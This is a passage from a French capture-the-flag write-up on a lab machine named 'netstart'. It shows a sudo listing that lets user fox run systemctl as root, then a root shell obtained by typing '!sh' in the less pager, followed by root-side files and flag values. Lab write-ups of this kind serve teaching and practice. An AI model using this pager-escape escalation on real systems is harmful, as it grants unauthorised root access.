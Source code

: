 ainsi que le flag `75894c2b3d5c3b78372af63694cdc659`.

L'utilisateur peut utiliser `systemctl` avec les droits root, ce sera notre porte de sortie finale :

```shellsession
fox@netstart:/home/fox$ sudo -l
Matching Defaults entries for fox on netstart:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fox may run the following commands on netstart:
    (root) NOPASSWD: /usr/bin/systemctl
```

La plupart des commandes de listing de `systemctl` sont gérées par le pager `less` or il est possible d'obtenir un shell depuis en tapant `!sh` :

```shellsession
fox@netstart:/home/fox$ sudo /usr/bin/systemctl list-units
UNIT                                                                                     LOAD   ACTIVE SUB       DESCRIPTION                                                       
proc-sys-fs-binfmt_misc.automount                                                        loaded active waiting   Arbitrary Executable File Formats File System Automount Point     
sys-devices-pci0000:00-0000:00:01.1-ata2-host2-target2:0:0-2:0:0:0-block-sr0.device      loaded active plugged   VBOX_CD-ROM                                                       
sys-devices-pci0000:00-0000:00:03.0-net-enp0s3.device                                    loaded active plugged   82540EM Gigabit Ethernet Controller (PRO/1000 MT Desktop Adapter) 
sys-devices-pci0000:00-0000:00:05.0-sound-card0.device                                   loaded active plugged   82801AA AC'97 Audio Controller                                    
--- snip ---
systemd-modules-load.service                                                             loaded active exited    Load Kernel Modules                                               
systemd-random-seed.service                                                              loaded active exited    Load/Save Random Seed                                             
systemd-remount-fs.service                                                               loaded active exited    Remount Root and Kernel File Systems                              
!sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

Et du côté de root :

```shellsession
# cat win
while true
 do
  runuser -l fox -c 'cd ~/.wine/drive_c/users/fox && wine login.exe'
  sleep 3
 done
# cat proof.txt
f632f5eaffa5607c961e22ba40291ab7
```

J'ai bien galéré avec ces histoires de shellcode. Il aurait peut être été possible de faire fonctionner la première technique et faisant d'abord exécuter des gadgets pour décaler la stack (sub esp + ret).
